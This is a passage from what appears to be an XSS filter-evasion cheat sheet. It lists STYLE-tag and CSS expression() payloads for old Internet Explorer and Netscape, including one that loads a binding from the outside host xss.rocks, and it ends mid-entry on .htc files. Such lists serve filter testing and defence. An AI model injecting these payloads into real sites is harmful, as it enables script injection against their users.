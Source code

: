    `<STYLE>BODY{-moz-binding:url("http://xss.rocks/xssmoz.xml#xss")}</STYLE>`

## STYLE tags with broken up JavaScript for XSS

This XSS at times sends IE into an infinite loop of alerts:

    `<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>`

## STYLE attribute using a comment to break up expression

Created by Roman Ivanov

    `<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">`

## IMG STYLE with expression

This is really a hybrid of the above XSS vectors, but it really does
show how hard STYLE tags can be to parse apart, like above this can send
IE into a loop:

    `exp/*<A STYLE='no\xss:noxss("*//*");`  
    `xss:ex/*XSS*//*/*/pression(alert("XSS"))'>`

## STYLE tag (Older versions of Netscape only)

    `<STYLE TYPE="text/javascript">alert('XSS');</STYLE>`

## STYLE tag using background-image

    `<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>`

## STYLE tag using background

    `<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>`

    <STYLE type="text/css">

    BODY{background:url("<javascript:alert>('XSS')")}

    </STYLE>

## Anonymous HTML with STYLE attribute

IE6.0 and Netscape 8.1+ in IE rendering engine mode don't really care if
the HTML tag you build exists or not, as long as it starts with an open
angle bracket and a letter:

    `<XSS STYLE="xss:expression(alert('XSS'))">`

## Local htc file

This is a little different than the above two cross site scripting
vectors because it uses an .htc file which must be on the same server as
the XSS vector. The example file works by pulling in the JavaScript and
running it as part of the style attribute:
